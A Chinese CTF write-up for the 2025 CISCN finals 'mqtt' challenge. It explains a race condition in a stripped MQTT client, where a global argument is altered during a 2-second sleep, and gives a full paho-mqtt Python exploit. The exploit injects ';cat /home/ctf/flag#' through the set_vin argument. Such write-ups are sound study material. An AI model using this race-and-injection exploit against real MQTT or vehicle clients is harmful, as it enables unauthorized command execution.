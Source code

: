 ```yaml
---
title: 国赛 决赛 2025 - mqtt
date: 2025/07/19 23:32:00
updated: 2025/07/19 23:32:00
tags:
    - mqtt
    - race condition
thumbnail: /assets/ciscnxccb2025/sleep2.png
excerpt: 利用MQTT客户端处理消息时的条件竞争，通过`sleep`窗口篡改全局变量`arg`实现命令注入。
---
```


> 某车企新来的实习生想要给汽车上的MQTT客户端加强一下性能，却没想到弄巧成拙，
> 你能试着攻破客户端吗？

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

第一次做mqtt的题，一开始依赖都没有，还好国赛有上网区，趁10分钟的机会把依赖下一下。

题目附件中并没有给出broker的信息，因此broker大概不是考点，
我们可以直接借助`python-paho`这样的库来操作题目。

{% notel purple fa-file-signature MQTT - Message Queuing Telemetry Transport %}
在做题之前，首先要知道mqtt的工作原理，mqtt中存在中心代理broker，负责接受并广播消息，
客户端使用subscribe来“监听”某个指定的主题，然后使用publish将消息广播到所有订阅了该主题的客户端上。
对于这道题，我们不需要也不能和目标二进制直接建立连接，只能用mqtt机制去打。
{% endnotel %}

虽然剥了符号，但是并不难，整体逆向量很小，唯一需要注意的代码就在这里：

<img src="/assets/ciscnxccb2025/sleep2.png" width="80%">

在处理每条消息的时候，都会开一条新的线程，这意味着存在着临界资源；
在处理`set_vin`指令时，check后等待了2秒再继续运行命令，这意味着临界资源能被其他线程修改；
在check和运行命令时都从全局变量中获取内容，没有先复制到栈上；
摆明了就是条件竞争，先运行正确的`set_vin`指令，然后在sleep过程中，
再publish一条消息把`arg`修改掉，就可以成功注入命令了。

> 我就说怎么这么多人做出来呢，原来是这么简单的条件竞争，还是条件竞争做少了，
> 下次要有看到sleep就想到条件竞争的敏锐感。

## EXPLOIT

```python
import paho.mqtt.client as mqtt
import time
from json import dumps

broker = '39.96.190.95'
client_id = "python_client"
vin = 'XDGV56EK1R8B3W42B'
hashn = 0
for ch in vin:
    hashn = hashn * 0x1f + ord(ch)
auth = hex(hashn)[-8:]

def on_connect(client, userdata, flags, rc):
    print(f"Connected with result code {rc}")
    client.subscribe("diag")

def on_message(client, userdata, msg):
    print(f"{msg.topic}: {msg.payload.decode()}")

client = mqtt.Client(client_id)
client.on_connect = on_connect
client.on_message = on_message
client.connect(broker, 36985, 60)
cmd = {
    'auth': auth,
    'cmd': 'set_vin',
    'arg': '123456789',
}
client.loop_start()
client.publish('diag', dumps(cmd))
time.sleep(0.5)
cmd['arg'] = ';cat /home/ctf/flag#'
client.publish('diag', dumps(cmd))
client.subscribe('diag/resp')
try:
    while True:
        time.sleep(0.5)
except KeyboardInterrupt:
    pass
client.loop_stop()
client.disconnect()
```
